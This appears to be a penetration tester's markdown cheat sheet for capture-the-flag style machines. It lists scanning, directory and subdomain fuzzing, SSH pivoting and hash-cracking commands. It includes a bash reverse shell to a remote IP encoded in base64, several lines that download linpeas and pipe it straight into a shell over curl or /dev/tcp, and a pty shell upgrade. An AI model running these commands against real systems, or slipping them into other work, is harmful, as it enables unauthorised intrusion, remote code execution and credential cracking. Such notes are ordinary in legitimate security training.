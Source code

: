 # prep
## Useful commands
sudo nmap -sC -sV -vv -p- 10.10.11.221

## dirs 
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -u domain.name

## subdomains:
gobuster vhost -u http://domain.domain \
-w ~/Downloads/subdomains \
--append-domain -t 50


ffuf -c -ac -w ~/Downloads/subdomains-10000.txt -H 'Host: FUZZ.domain.name' -u http://domainname 

## ssh pivot
ssh -L 1234:localhost:8080 rosa@10.10.11.38 
connect using localhost:1234

python3 -c 'import pty; pty.spawn("/bin/sh")'

base64
echo -n 'bash -i >& /dev/tcp/10.10.16.12/4242 0>&1' | base64 

## leanpeas path
cd /usr/share/peass/
## From public github
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

## Local network
sudo python3 -m http.server 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

## Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim


## hashcat basic
hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt --force


## docker folder - build with dockerfile
sudo docker build -t dockername . 
sudo docker run -it -v $(pwd):/app dockername
